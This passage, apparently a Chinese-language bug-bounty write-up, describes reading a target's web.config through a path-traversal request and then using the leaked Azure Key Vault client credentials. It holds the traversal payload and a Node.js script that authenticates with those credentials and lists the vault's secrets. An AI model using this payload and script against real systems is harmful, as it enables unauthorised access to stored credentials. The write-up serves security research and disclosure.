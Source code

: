 要阅读赏金计划目标主机上的web.config，我们只需要发送以下请求：

```
GET /utility/download.aspx?f=.+./.+./web.config
```

其响应中，包含了许多Secrets，但最严重的一个是下面的密钥被公开：

```
...
&lt;add key="keyVaultDataPlaneUri" value="redacted" /&gt;
&lt;add key="uniqueKeyVaultNameUri" value="redacted" /&gt;
&lt;add key="keyVaultClientId" value="redacted" /&gt;
&lt;add key="keyVaultClientSecretIdentifier" value="redacted" /&gt;
&lt;add key="keyVaultClientTenantName" value="redacted" /&gt;
&lt;add key="keyVaultAuthenticationContextUri" value="redacted" /&gt;
&lt;add key="keyVaultApiVersion" value="2016-10-01" /&gt;
...
```

如果正确利用这个密钥，就能够访问Azure Key Vault实例。Azure Key Vault用于保存应用程序的Secrets，其中通常包括一些很有价值的内容。

现在，要解决的问题就是如何发送请求才能访问到这些Secrets。与shubs（ [https://twitter.com/infosec_au](https://twitter.com/infosec_au) ）进行交流后，他迅速帮助我将Node.js脚本整合在一起，然后使用公开的密钥访问Azure Key Vault实例。

```
var KeyVault = require('azure-keyvault');
var AuthenticationContext = require('adal-node').AuthenticationContext;

var clientId = "clientId";
var clientSecret = "clientSecret";
var vaultUri = "vaultUri";

// Authenticator - retrieves the access token
var authenticator = function (challenge, callback) `{`

  // Create a new authentication context.
  var context = new AuthenticationContext(challenge.authorization);

  // Use the context to acquire an authentication token.
  return context.acquireTokenWithClientCredentials(challenge.resource, clientId, clientSecret, function (err, tokenResponse) `{`
    if (err) throw err;
    // Calculate the value to be set in the request's Authorization header and resume the call.
    var authorizationValue = tokenResponse.tokenType + ' ' + tokenResponse.accessToken;
    console.log(authorizationValue);
    return callback(null, authorizationValue);
  `}`);

`}`;

var credentials = new KeyVault.KeyVaultCredentials(authenticator);
var client = new KeyVault.KeyVaultClient(credentials);

client.getSecrets(vaultUri).then(function(value) `{`
    console.log(value);
`}`);
```
